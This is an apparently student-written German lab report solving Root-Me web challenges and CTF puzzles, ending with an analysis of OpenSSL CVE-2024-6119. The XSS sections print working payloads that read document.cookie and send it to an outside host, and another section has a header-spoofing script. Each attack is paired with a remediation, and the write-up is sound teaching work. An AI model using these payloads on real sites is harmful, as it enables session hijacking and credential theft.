










# Execise One

## Web Client

### XSS: Stored 1

Der Inhalt im Eingabefeld wurde nicht validiert, wodurch es möglich war, HTML-Code einzuschleusen, der vom Browser als solcher interpretiert wurde. Dadurch konnte das `<script>`-Tag verwendet werden, um JavaScript-Code einzuschleusen, der den Nutzer auf eine andere Webseite weiterleitete. Vor der Weiterleitung wurde der aktuelle Cookie mit JavaScript ausgelesen – ein Vorgang, der durch das Setzen des `HttpOnly`-Parameters hätte verhindert werden können. Der Cookie wurde dann als Suchparameter `?cookie` an die URL angehängt. Die Zielseite verfolgte den Traffic mit Matomo, wodurch es relativ einfach war, den Suchparameter auszulesen.



Dieser Code wurde genutzt, um die XSS-Attacke auszulösen:

```html
<script>window.location="https://cdn.mogler.dev/?cookie="+document.cookie;</script>
```

### XSS: DOM Based Introduction

Auf dieser Webseite wurde der Nutzer aufgefordert, eine Nummer einzugeben, jedoch wurde nicht überprüft, ob der eingegebene Inhalt tatsächlich eine Zahl war. Dadurch war es möglich, beliebige Strings einzugeben, die später als Suchparameter an die URL angehängt wurden. Der Suchparameter `?number` wurde offensichtlich vom Backend ausgelesen und direkt in den JavaScript-Code eingefügt. Dadurch war es möglich, auch JavaScript-Code über diesen Parameter einzuschleusen. Um dies zu erreichen, musste der String mit einem `';` beendet und anschließend mit einem normalen `'` fortgesetzt werden, damit der Rest des Codes korrekt interpretiert wird, ohne einen Fehler zu verursachen.

Zusätzlich gab es eine Seite, auf der man den Betreiber kontaktieren konnte, indem man ihm die URL seiner Seite schickte. Mit diesem Tool konnte man dem Betreiber eine manipulierte URL senden, die den schadhaften Code enthielt.

```plain
.../?number='; window.location="https://cdn.mogler.dev/?cookie="+document.cookie;'
```

Der Schadcode nutzt die gleiche Technik wie zuvor, indem er den Browser des Nutzers auf eine andere Seite weiterleitet und dabei den ausgelesenen Cookie überträgt. Dies hätte verhindert werden können, wenn das Backend die Eingaben auf ihre Gültigkeit als Zahl geprüft und den Cookie mit dem `HttpOnly`-Flag versehen hätte.



## Web Server

### HTTP: IP restriction bypass

Diese Aufgabe war durch eine Anmeldemaske geschützt, bei der entweder korrekte Administrator-Daten eingegeben werden mussten oder alternativ eine Anmeldung über eine bestimmte IP-Adresse möglich war. Die Seite erwähnte dabei localhost-IP-Adressen wie `127.0.0.1` (IPv4) oder `::1` (IPv6) sowie Standard-IP-Adressen für lokale Netzwerke, wie beispielsweise `192.168.0.0/24`.

Um eine andere IP-Adresse vorzutäuschen, kann der `X-Forwarded-For`-Header genutzt werden, der üblicherweise bei Proxys oder Reverse-Proxys eingesetzt wird. Damit lässt sich dem Server eine beliebige IP-Adresse übermitteln. Wichtig dabei ist, dass die eigentliche IP-Adresse der TCP/UDP-Verbindung unverändert bleibt und nur suggeriert wird, dass die Anfrage von einer anderen Quelle stammt.

```python
import requests
url = "http://challenge01.root-me.org/web-serveur/ch68/"
headers = {
    "X-Forwarded-For": "192.168.0.1"  # Zuerst wurde 127.0.0.1 getestet
}
response = requests.get(url, headers=headers)
print(response.text)
```

Zum Testen der Attacke gibt es Tools wie `curl` oder `wget`. Hier wurde ein einfaches Python-Skript erstellt, das die URL aufruft und den Header setzt. Der Request wird ausgeführt, und der Server-Response-Body wird in der Konsole ausgegeben.

```bash
python .\try1_X-Forward.py
```

Im Server-Response befindet sich das gewünschte Ergebnis:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Secured Intranet</title>
</head>
<body>
    <link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' />
    <iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
    <h1>Intranet</h1>
    <div>
        Well done, the validation password is: <strong>Ip_$po0Fing</strong>
    </div>
</body>
</html>
```

Um diese Schwachstelle zu schließen, sollte auf IP-basierte Authentifizierung verzichtet oder der Dienst nur über ein VPN zugänglich gemacht werden. Falls dies nicht möglich ist, muss der `X-Forwarded-For`-Header im Service ignoriert werden.

### HTTP: Open redirect

In dieser Challenge sollte eine Weiterleitung über den Server durchgeführt werden. Auf der Seite gibt es drei Buttons, die zu verschiedenen sozialen Medien führen. Im Quellcode wird ersichtlich, dass die Weiterleitung nicht direkt, sondern über den Server mittels Suchparametern erfolgt. Der erste Parameter, `url`, gibt die Zielseite an. Der zweite, `h`, ist ein Hash, was an der Datenstruktur und dem ersten Buchstaben erkennbar ist. Aufgrund der Länge und des Formats lässt sich leicht feststellen, dass es sich um einen `MD5`-Hash handelt. 

Um den ursprünglichen Wert hinter dem Hash zu ermitteln, wurde zunächst die URL getestet. Dies bestätigte, dass der Hash tatsächlich der `MD5`-Wert der URL ist.

```html
<a href="?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134">facebook</a>
```

Für den Angriff wurde eine eigene URL genutzt und ihr `MD5`-Hash als Wert für den Parameter `h` eingesetzt. Als Tool kam die VS Code-Erweiterung `REST Client` zum Einsatz, da direkte Tests im Browser nicht möglich waren, da die Seite sofort weiterleitete.

```http
GET http://challenge01.root-me.org/web-serveur/ch52/?url=https://cdn.mogler.dev/&h=26ef2ba834a621f58179a2950054aa5a
```

Das Ergebnis war die Ausgabe der Flag, gefolgt von einer clientseitigen Weiterleitung, die theoretisch ein potenzielles XSS-Risiko birgt, das hier jedoch nicht weiter untersucht wurde.

```html
<p>Well done, the flag is e6f8a530811d5a479812d7b82fc1a5c5
</p><script>document.location = 'https://cdn.mogler.dev/';</script>
```

Zur Absicherung wäre es sinnvoll, die Weiterleitung direkt über die `Anchor`-Elemente und nicht über den Server zu realisieren. Alternativ könnten erlaubte URLs in einer Datenbank gespeichert und geprüft werden. Zudem könnte der Hash durch ein Salt ergänzt werden, um eine einfache Berechnung zu verhindern, und ein sicherer Hash-Algorithmus wie `SHA256` anstelle von `MD5` verwendet werden, da letzterer unsicher und leicht berechenbar ist.

### HTTP: Directory indexing

Der Name der Challenge deutet bereits auf die Lösung hin. Zunächst wurde der Quellcode der Index-Seite untersucht, wo ein HTML-Kommentar auf die Einbindung der Datei `pass.html` aus dem Verzeichnis `admin` hinwies:

```html
<!-- include("admin/pass.html") -->
```

Beim Aufrufen des Ordners `admin` zeigte der Server dessen Inhalt an:



Dort wurde ein weiterer Ordner namens `backup` sichtbar, welcher die Datei `admin.txt` enthielt:



Das Öffnen der Datei gab folgende Meldung mit der Flag aus:

```html
<pre style="word-wrap: break-word; white-space: pre-wrap;">Password / Mot de passe : LINUX
</pre>
```

Dieses Problem tritt auf, wenn der HTTP-Service falsch konfiguriert ist. Bei NGINX kann dies passieren, wenn `autoindex` auf `on` gesetzt ist. Um stattdessen einen `404`-Status zurückzugeben, empfiehlt es sich, in der Konfiguration `try_files $uri =404;` anzugeben. Dadurch prüft NGINX, ob die Datei existiert, und gibt bei Nichtvorhandensein den Fehlercode `404` zurück. Dies erhöht die Sicherheit, da vorhandene Ordner nicht sichtbar gemacht werden, was das Reverse Engineering erschwert.

### HTTP: Headers

Beim Start der Challenge zeigt der Seitenindex nur die Meldung: *"Content is not the only part of an HTTP response!"*. Der Hinweis sowie der Name der Challenge legen nahe, die HTTP-Header zu überprüfen. 

In den Browser-Entwicklertools, im Netzwerk-Reiter, lässt sich der Request mit allen gesendeten Informationen einsehen. Dort erkennt man, dass der Server mit einem speziellen Header `Header-RootMe-Admin` und dem Wert `none` antwortet:



Um einen Wert für diesen Header zu setzen, wurde die VS Code Extension *REST Client* genutzt. Ein `GET`-Request mit dem Header und dem Wert `admin` wurde gesendet:

```http
GET http://challenge01.root-me.org/web-serveur/ch5/
Header-RootMe-Admin: admin
```

Daraufhin erscheint ein neuer `<p>`-Tag, der bestätigt, dass die Challenge erfolgreich gelöst wurde:

```html
<p>Content is not the only part of an HTTP response!</p>
<p>You did it! You can validate the challenge with the password HeadersMayBeUseful</p>
```

Zur Behebung dieser Sicherheitslücke sollte auf solche Header verzichtet und stattdessen konventionelle Sicherheitsmaßnahmen verwendet werden.

### HTTP: User Agent

Die Startseite zeigt die Meldung: *"Wrong user-agent: you are not the 'admin' browser!"*. Hier wird der `User-Agent`-Header genutzt, der normalerweise den verwendeten Browser oder Bot (z. B. `Googlebot/2.1 (+http://www.google.com/bot.html)`) identifiziert. In diesem Fall dient er offenbar zur Authentifizierung.

Da der `User-Agent` im Browser nicht direkt geändert werden kann, wird erneut die VS Code Extension *REST Client* verwendet:

```http
GET http://challenge01.root-me.org/web-serveur/ch2/
User-Agent: admin
```

Als Antwort liefert die Seite die Flagge:

```html
<h3>Welcome master!<br/>Password: rr$Li9%L34qd1AAe27</h3>
```

## Capture The Flag

### Web 100 - Giving Up the Game

Die Startseite zeigt ein Spiel mit Tipps und einem Ladebalken an. Im Code ist eine URL zu finden, die `/getSprites` aufruft. Wenn diese Seite aufgelöst wird, erhält man eine HTML-Antwort, die einen Base64-kodierten String enthält:

```html
<pre>"cG9jdGZ7dXdzcF8xXzdIMW5rXzdIM3IzcjBfMV80bX0="</pre>
```

Wenn man diesen String mit einem Base64-Dekoder entschlüsselt, erhält man die gesuchte Flagge.

Im Browser gibt es eine Konsole, die JavaScript-Code ausführt. Mit der Funktion `atob` kann man den angegebenen String einfach dekodieren:

```js
atob("cG9jdGZ7dXdzcF8xXzdIMW5rXzdIM3IzcjBfMV80bX0=")
// OUTPUT: 'poctf{uwsp_1_7H1nk_7H3r3r0_1_4m}'
```

### Web 100 - The Way Out is Through

In diesem CTF scheint zunächst ein Fehler aufgetreten zu sein, da eine vermeintliche `404 - Not Found`-Fehlermeldung angezeigt wird, aber der erste Eindruck täuscht. Im Quellcode findet sich ein `<script>`-Tag mit verschiedenen Variablen, die zusammengesetzt den gesuchten Wert ergeben.

```js
let part_1 = [112, 111, 99, 116].map(x => String.fromCharCode(x)).join('');
let part_2 = atob("Znt1d3NwXw==");
let part_3 = "document.cookie";
let part_4 = "XzdydTdoXw==";
let part_5_hex = [0x31, 0x35, 0x5f, 0x30, 0x75, 0x37, 0x5f, 0x37, 0x68, 0x33, 0x72, 0x33, 0x7d];

console.log("The Tooth is Over There.");
document.cookie = "\u0037\u0068\u0033";
```

- `part_1` mappt das Integer-Array in ein Array von Zeichen und konvertiert die Integers in die zugehörigen Char Codes.
- `part_2` decodiert den gegebenen Base64-String.
- `part_3` setzt den Wert von `document.cookie` als String. Dies deutet darauf hin, dass die `document.cookie`-Eigenschaft des `document`-Objekts verwendet werden sollte.
- `part_4` ist ein weiterer Base64-kodierter String, der hier jedoch nicht dekodiert wird.
- `part_5_hex` enthält ein Integer-Array, das nicht in Strings umgewandelt wird.

Am Ende wird eine einfache Nachricht in der Konsole ausgegeben und ein Cookie gesetzt. Mit einem einfachen JavaScript-Skript kann man die Variablen zusammensetzen und den gesuchten Wert extrahieren.

```js
part_1 + part_2 + document.cookie + atob(part_4) + String.fromCharCode(...part_5_hex);
//OUTPUT: 'poctf{uwsp_7h3_7ru7h_15_0u7_7h3r3}'
```

### Crypto 300 - Put Down Thy Wrath 

In dieser Challenge geht es darum, einen gegebenen verschlüsselten String zu entschlüsseln.

Der verschlüsselte String lautet:

```plain
79,74,3f,0f,5a,27,21,3a,36,48,64,51,64,0f,79,7e,1a,64,64,03,33,0f,64,64,57,21,27,3f,0f,2c,4a,3a,3f,24,27,3f,0f,7e,64,79,1a,64,2c
```

Ein passender öffentlicher Schlüssel (Public Key) wird ebenfalls bereitgestellt:

```plain
3233
```

Anstatt einer Webseite erhält man ein Python-Skript, das den String verschlüsselt hat. Öffnet man das Skript und wirft einen Blick in den Quellcode, erkennt man, dass der gesuchte String direkt im Code enthalten ist:

```python
### ...

# Flag message to encrypt
flag = "poctf{uwsp_T3mp357_4nd_7urnm01l}"

### ...
```

In diesem Fall ist die entschlüsselte Flagge bereits im Quellcode sichtbar und lautet:  
`poctf{uwsp_T3mp357_4nd_7urnm01l}`. 

Der Hinweis liegt also darin, dass der verschlüsselte String den bekannten Flag-Text verbirgt und das Python-Skript dazu dient, diesen verschlüsselten String zu erzeugen.

### Scoreboard





## Known Real-World Software Vulnerabilities

### OpenSSL: CVEs in 2024

| **CVE-ID**        | **Schweregrad (CVSS)** | **Veröffentlicht** | **Problemzusammenfassung**                                                                                                     |
|-------------------|-----------------------|--------------------|------------------------------------------------------------------------------------------------------------------------------|
| **CVE-2024-9143** | 4.3                   | 2024-10-16         | Out-of-bounds-Lese-/Schreibfehler bei der unsachgemäßen Nutzung der niedrigen elliptischen Kurven-API.                         |
| **CVE-2024-6119** | 7.5                   | 2024-09-03         | Denial-of-Service durch ungültige Speicherleseoperationen bei Zertifikatsnamenüberprüfung.                                    |
| **CVE-2024-5535** | 9.1                   | 2024-06-27         | Pufferüberlese im SSL_select_next_proto aufgrund einer leeren Protokollliste.                                                |
| **CVE-2024-4741** | 7.5                   | 2024-11-13         | Use-After-Free-Schwachstelle in SSL_free_buffers, die zu Abstürzen oder beliebigem Codeausführung führen kann.              |
| **CVE-2024-4603** | 5.3                   | 2024-05-16         | Langsame Verarbeitung von übermäßig langen DSA-Schlüsseln, die zu DoS führen können.                                          |
| **CVE-2024-2511** | N/A                   | 2024-04-08         | Unbegrenztes Wachstum des Speichers bei TLSv1.3-Sitzungen aufgrund einer fehlerhaften Sitzungszwischenspeicherung.            |
| **CVE-2024-0727** | 5.5                   | 2024-01-26         | Absturz aufgrund fehlerhafter PKCS12-Dateien, was zu DoS führt.                                                                 |
| **CVE-2023-6237** | 5.9                   | 2024-04-25         | Denial of Service aufgrund von langen Verzögerungen beim Überprüfen übermäßig großer RSA-Öffentlichkeitsschlüssel.             |
| **CVE-2023-6129** | 6.5                   | 2024-01-09         | Korruption des Anwendungsstatus auf PowerPC-CPUs beim Verwenden von POLY1305 MAC, was zu Abstürzen oder vollständiger Kontrolle führen kann. |

### OpenSSL: CVE-2024-6119

Dieser [CVE](https://nvd.nist.gov/vuln/detail/CVE-2024-6119) führt zu einem "Denial of Service" (DoS), was bedeutet, dass ein Dienst zum Absturz gebracht wird. Das Problem entsteht, weil auf einen Speicherbereich zugegriffen wird, der nicht zugewiesen wurde, was zum Absturz führt. Allerdings kann dies nicht zu Remote Code Execution (RCE) oder zur Offenlegung von Inhalten führen, da der Speicher nur abgefragt und nicht beschrieben wird, und dies geschieht innerhalb einer `if`-Bedingung.

#### Beschreibung des Fehlers

Im betroffenen Code wird überprüft, ob der Wert von `gen->type` der Konstante `GEN_OTHERNAME` entspricht und ob `check_type` der Konstante `GEN_EMAIL` entspricht. Das Problem tritt auf, wenn `check_type` ungleich `GEN_EMAIL` ist, aber `gen->type` trotzdem `GEN_OTHERNAME` entspricht. In diesem Fall wird die Schleife nicht übersprungen, sondern fortgesetzt. Die `if`-Bedingung im `else`-Zweig wird ignoriert, wenn `gen->type` einen anderen Wert als `GEN_OTHERNAME` hat und `check_type` ungleich `gen->type` ist.

Das führt dazu, dass der Code den `if-else`-Zweig verlässt und zur nächsten Bedingung übergeht. Wenn `check_type` nicht `GEN_EMAIL` ist und zum Beispiel `GEN_DNS` entspricht, wird die folgende Anweisung ausgeführt. Da `gen->type` jedoch `GEN_OTHERNAME` ist, hat `gen->d` nicht die benötigte Struktur, was zu einem undefinierten Wert für `cstr` führt.



Dieser wird in Zeile 978 durch die Funktion `do_check_string` überprüft, was einen "Segmentation Fault" (Speicherzugriffsfehler) auslöst. In der Folge kann das Betriebssystem das Programm im schlimmsten Fall beenden.




#### Commit: 7dfcee2cd2a63b2c64b9b4b0850be64cb695b0a0

Der [Commit](https://github.com/openssl/openssl/commit/7dfcee2cd2a63b2c64b9b4b0850be64cb695b0a0) für diesen Fix des Fehlers, ist leicht komplex. Da beim Commit auch ein Refactoring durchgeführt wurde und daher nicht direkt ersichtlich ist, was der Fehler war und wie er behoben wurde.
Im wesentlichen wird nur geprüft ob `gen->type` gleich `GEN_OTHERNAME` ist. Und erst in dieser If-Abzweigung ob `check_type` GEN_EMAIL ist und wenn nicht wird die schleife fortgesetzt.





#### CWE-843: Access of Resource Using Incompatible Type ('Type Confusion'

[CWE-843](https://cwe.mitre.org/data/definitions/843.html), auch bekannt als "Access of Resource Using Incompatible Type" oder "Type Confusion", beschreibt einen Fehler, bei dem auf eine Ressource mit einem inkompatiblen Datentyp zugegriffen wird. Dies kann auftreten, wenn ein Programm falsche Annahmen über den Datentyp einer Ressource trifft und diese Ressource in einem unerwarteten Format interpretiert oder verwendet wird. Dieser Fehler kann zu Sicherheitslücken führen, etwa zu unvorhergesehenem Verhalten, Datenkorruption oder sogar zur Ausführung von schadhafter Software. Type Confusion tritt oft auf, wenn ein falscher Datentyp in einer Funktion oder einem Zugriff auf eine Speicherstelle verwendet wird, was dazu führen kann, dass der Code mit nicht validierten Daten arbeitet.

#### Vorhersehbarkeit des Fehlers

Die `if`-Anweisung war relativ komplex und schwer verständlich. Durch den Fix wurde der Code jedoch deutlich leserlicher. Der Fehler hätte allerdings auch durch ausreichendes Testen entdeckt werden können, indem man `gen->type` auf `GEN_OTHERNAME` gesetzt und anschließend alle möglichen Werte für `check_type` getestet hätte.

#### Erkenntnis aus diesem Fehler

Es ist wichtig, Code immer sauber und gut lesbar zu schreiben, auch wenn dies zu einem kleinen Performanceverlust führt. Moderne Compiler sind so leistungsfähig, dass diese Verluste oft wieder optimiert werden, sodass der einzige Unterschied in der Lesbarkeit des Codes liegt.
